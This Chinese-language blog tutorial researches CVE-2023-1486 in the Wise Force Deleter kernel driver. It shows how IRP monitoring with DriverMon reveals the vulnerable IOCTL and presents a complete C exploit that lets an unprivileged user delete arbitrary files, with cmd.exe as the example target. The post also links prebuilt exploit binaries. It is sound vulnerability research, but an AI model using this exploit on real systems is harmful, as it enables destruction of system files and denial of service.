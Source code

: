 # 【第 16 話】CVE-2023-1486 研究－任意刪除檔案

## 文章大綱
這篇要研究 CVE-2023-1486 的漏洞成因，利用 DriverMon 觀察 IRP 的傳輸，藉此寫出攻擊腳本，達到任意刪除檔案。


## 介紹 CVE-2023-1486
首先來看看 [CVE-2023-1486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1486) 在 MITRE 的描述。

A vulnerability classified as problematic was found in Lespeed WiseCleaner Wise Force Deleter 1.5.3.54. This vulnerability affects the function 0x220004 in the library WiseUnlock64.sys of the component IoControlCode Handler. The manipulation leads to improper access controls. Local access is required to approach this attack. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-223372.

直接用列點的方式抓重點。
- 軟體：Lespeed WiseCleaner Wise Force Deleter 1.5.3.54
- 元件：WiseUnlock64.sys
- 漏洞位置：0x220004
- 漏洞成因：Improper Access Controls

從我的 GitHub 下載 [WiseUnlock64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WiseUnlock64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 WiseUnlock64.sys 的數位簽章資訊，是 2022 年 11 月 10 日的簽章。

![](Signature.png)


## DriverMon 觀察
從我的 GitHub 下載 [WFDSetup_1.5.3.54.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WFDSetup_1.5.3.54.exe)，在 VM 中安裝之後執行 Wise Force Deleter。

![](WiseForceDelete.png)

這次我們不逆向分析驅動程式，而是用 [zodiacon/DriverMon](https://github.com/zodiacon/DriverMon) 觀察。由於 Windows 10 1709 沒更新的話，可能無法執行目前最新的版本，所以我是用 [DriverMon 0.2-alpha](https://github.com/zodiacon/DriverMon/releases/tag/0.2-alpha)。

將 DriverMon 解壓縮到 VM 後執行，點選上方第二個按鈕。

![](DriverMon.png)

DriverMon 會列舉所有已載入的驅動程式，選擇 WiseUnlock 後按 `OK`。最後按左上方的藍色三角形開始監控 IRP。

![](ChooseDriver.png)

點選 Wise Force Deleter 的`加入檔案`，選一個正在被使用的檔案。下圖以 procexp64.exe 為例，也就是先執行 procexp64.exe 再從 Wise Force Deleter 選擇這個檔案。因為只有在檔案被開啟的狀況下，Wise Force Deleter 才會傳 IRP 給驅動程式強制刪除檔案。選擇檔案後點擊`解除鎖定並刪除`。

![](delete.png)

這時在 DriverMon 可以看到有一筆記錄跳出來，其中可以看到 Driver 名稱是 WiseUnlock、IoControlCode 0x220004、輸入長度 82 bytes、輸出長度 4 bytes。

![](ioctl.png)

點選 Data 欄位的 View 則可以看到輸入的內容就是刪除檔案的路徑。

![](path.png)


## 攻擊腳本
從 DriverMon 記錄的資訊已經足以讓我們寫出攻擊腳本，因此可以寫入檔案路徑給 WiseUnlock64.sys 強制刪除任意檔案。
- Symbolic Link Name：WiseUnlock
- IoControlCode：0x220004
- 輸入：檔案路徑（寬字元）
- 輸入長度：檔案路徑長度
- 輸出長度：4

完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1486)。

```c
#include <iostream>
#include <Windows.h>
#include <winioctl.h>

#define SymLinkName L"\\\\.\\WiseUnlock"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 寫入檔案路徑給 WiseUnlock64.sys 強制刪除任意檔案
    DWORD dwWrite;
    WCHAR data[] = L"\\??\\C:\\Windows\\System32\\cmd.exe";
    DeviceIoControl(hDevice, 0x220004, data, sizeof(data), data, 4, &dwWrite, NULL);

    CloseHandle(hDevice);
    return 0;
}
```

## 測試
在 VM 中安裝 [WFDSetup_1.5.3.54.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WFDSetup_1.5.3.54.exe) 或者直接載入 [WiseUnlock64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WiseUnlock64.sys) 後用一般使用者執行 [CVE-2023-1486.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/CVE-2023-1486.exe)，你系統的 cmd 就會被刪除，就再也打不開命令提示字元了，所以**務必在 VM 中測試**。

## 參考資料
- [CVE-2023-1486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1486)
- [WindowsKernelVuln/CVE-2023-1486](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1486)